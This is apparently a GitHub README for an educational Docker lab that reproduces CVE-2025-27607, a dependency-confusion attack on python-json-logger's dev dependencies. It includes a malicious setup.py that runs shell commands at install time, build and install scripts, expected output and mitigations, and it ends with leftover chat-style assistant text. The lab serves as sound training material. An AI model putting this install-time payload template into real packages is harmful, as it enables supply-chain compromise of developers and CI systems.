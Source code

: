 
# 🧪 CVE-2025-27607 Lab: Simulating Python Supply Chain RCE via Dependency Confusion

## 📌 CVE Summary

**CVE-2025-27607** refers to a **remote code execution (RCE)** vulnerability in the popular Python logging formatter package: `python-json-logger`. Between **December 30, 2024** and **March 4, 2025**, the package's development dependencies included a now-deleted package:

```
msgspec-python313-pre
```

Because this package was **removed from PyPI**, the name was available for a third party to claim — a classic case of **dependency confusion**.

Here is a LinkedIn summary: [CVE-2025-27607](https://www.linkedin.com/posts/0x534c_cybersecurity-pythonloggingvulnerability-activity-7304483858475847680-7MlI/) - its a big deal!

If a malicious actor re-uploaded a fake version of this package, and a developer installed `python-json-logger[dev]` using pip on Python 3.13, the attacker could execute arbitrary code on the victim’s machine or CI/CD system.

- ✅ **Exploit vector**: Installing dev dependencies (`pip install python-json-logger[dev]`)
- ❗ **Impact**: Code execution at install-time via `setup.py`
- 🔧 **Fixed in**: `python-json-logger` version **3.3.0**

---

## 🧰 Building Labs from CVEs — Prompt Checklist

To create a lab from any CVE, you should gather the following:

### 1. 📄 Vulnerability Details
- CVE number and description
- Affected software and versions
- Type of vulnerability (e.g., RCE, buffer overflow, XSS)

### 2. 🎯 Learning Objectives
- What do students or analysts need to understand?
- What behavior are they trying to reproduce or analyze?

### 3. 🛠️ Environment Needs
- Docker, VMs, or host machine?
- Any specific language runtimes, package managers, etc.?

### 4. ⚙️ Exploit Method
- Will the lab show DoS, RCE, a data leak, etc.?
- Is it safe to simulate in a container?

### 5. 🔐 Remediation & Mitigation
- How was the bug patched?
- How can students secure the environment post-exploit?

---

## 🧪 Lab: Simulating CVE-2025-27607 in Docker

This lab demonstrates a **simulated RCE** via a hijacked development dependency in a controlled Docker environment.

### 🔧 What It Does

- Builds a **malicious Python package** that executes code on install.
- Creates a fake PyPI-style local directory.
- Installs the package via pip, simulating what happens if a developer installs untrusted dependencies.
- Confirms the payload was executed by creating a file: `/tmp/pwned.txt`.

---

## 🚀 Step-by-Step Tutorial

### 🗂️ Folder Structure

```
cve-2025-27607-lab/
├── docker-compose.yml
├── Dockerfile
├── install.sh
├── requirements.txt
└── malicious_pkg/
    └── setup.py
```

---

### 1️⃣ `malicious_pkg/setup.py`

```python
from setuptools import setup
import os

# Payload triggered at install time
os.system('echo "[+] RCE achieved! Writing to /tmp/pwned.txt"')
os.system('echo "Hacked by dependency confusion" > /tmp/pwned.txt')

setup(
    name='msgspec-python313-pre',
    version='0.1.0',
    description='Fake package to simulate supply chain attack',
    py_modules=[],
)
```

---

### 2️⃣ `requirements.txt`

```txt
msgspec-python313-pre
```

---

### 3️⃣ `install.sh`

```bash
#!/bin/bash
echo "[*] Installing dev dependencies..."

pip install --no-cache-dir --find-links=file:///local_pypi -r requirements.txt

echo "[*] Installation done."
ls /tmp/pwned.txt && cat /tmp/pwned.txt || echo "[!] Exploit file not found."
```

---

### 4️⃣ `Dockerfile`

```Dockerfile
FROM python:3.13-rc-slim

# Install build tools and setuptools
RUN apt-get update && apt-get install -y build-essential && \
    pip install --upgrade pip setuptools wheel

# Build malicious package
COPY malicious_pkg /malicious_pkg
WORKDIR /malicious_pkg
RUN python3 setup.py sdist && \
    mkdir -p /local_pypi && \
    cp dist/*.tar.gz /local_pypi/

# Copy and prep the app environment
WORKDIR /app
COPY requirements.txt install.sh /app/
RUN chmod +x install.sh

CMD ["./install.sh"]
```

---

### 5️⃣ `docker-compose.yml`

```yaml
version: "3.9"
services:
  rce-lab:
    build: .
    container_name: rce-lab
```

---

### ✅ Run the Lab

In your terminal, from the root of the lab folder:

```bash
docker-compose build
docker-compose up
```

---

### 🧾 Expected Output

```
[*] Installing dev dependencies...
[+] RCE achieved! Writing to /tmp/pwned.txt
[*] Installation done.
Hacked by dependency confusion
```

🎉 Success! You've just reproduced a **supply chain RCE vulnerability** using a hijacked dev dependency.

---

## ✅ Mitigation Strategies

- **Pin dependencies** using hashes or specific versions.
- Avoid installing dev/test dependencies in production.
- Use tools like:
  - [`pip-audit`](https://pypi.org/project/pip-audit/)
  - [`pip install --require-hashes`](https://pip.pypa.io/en/stable/cli/pip_install/#require-hashes)
- Monitor deleted packages in your dependency tree.

---

## 📚 Next Steps

- [ ] Add a detection exercise (can students find the backdoor?)
- [ ] Extend to simulate GitHub Actions CI compromise
- [ ] Build a hardened version with signed packages

---

## 🙏 Credits

This lab was developed as an educational demonstration of CVE-2025-27607 and is for **training purposes only**.

Always practice responsible disclosure and never publish malicious packages to public repositories.

---

```

Let me know if you want this zipped, pushed to a GitHub template, or if you'd like a student **worksheet** or **challenge questions** to go along with it!